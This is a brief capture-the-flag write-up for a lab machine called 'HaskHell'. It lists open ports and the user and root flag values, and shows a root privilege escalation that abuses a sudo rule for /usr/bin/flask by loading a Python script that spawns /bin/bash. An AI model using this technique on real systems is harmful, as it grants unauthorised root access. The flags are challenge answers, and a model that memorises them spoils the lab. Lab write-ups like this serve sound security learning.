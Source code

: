 # Name = HaskHell
```
IP: export IP=10.10.68.222
```
Ports open
Port |Service
-----|----------
22   |ssh
5001 |gunicorn - web server

Directory list:
- /submit

User flag:
`flag{academic_dishonesty}`

Root flag
`flag{im_purely_functional}`

```bash
sudo -l
```
To obtain root we can use the ability to run /usr/bin/flask as root.
Simply write a script that spawns system:
```python
import os
os.system('/bin/bash')
```
Save it as python script, then add the script to variable FLASK_APP:
```bash
export FLASK_APP=script.py
```
run
```bash
sudo /usr/bin/flask run
```
Locate root flag at /root/root.txt